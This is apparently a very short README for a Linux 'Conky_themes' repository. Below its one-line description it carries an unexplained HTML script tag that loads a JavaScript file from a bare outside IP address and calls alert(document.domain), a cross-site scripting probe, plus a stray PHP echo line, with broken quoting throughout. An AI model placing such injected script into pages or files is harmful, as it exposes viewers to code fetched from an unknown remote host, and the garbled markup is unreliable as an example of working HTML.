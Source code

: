# Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"<p><script type="text/javascript"" src="http://104.43.13.161/hello.js"">     alert(document.domain);   </script>"</p>"
<?php echo'hello';?>
